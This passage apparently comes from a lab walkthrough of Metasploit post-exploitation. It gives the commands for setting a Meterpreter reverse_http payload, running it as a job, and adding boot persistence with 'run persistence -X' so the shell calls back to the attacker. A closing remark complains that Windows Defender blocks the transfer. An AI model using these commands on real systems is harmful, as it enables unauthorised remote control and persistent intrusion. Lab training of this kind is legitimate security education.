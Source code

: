No answer needed

    4. Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

No answer needed

    5. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

`run persistence -X`

    6. Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

No answer needed.

Windows Defender keeps getting in the way, regardless of the method I use to transfer it over.
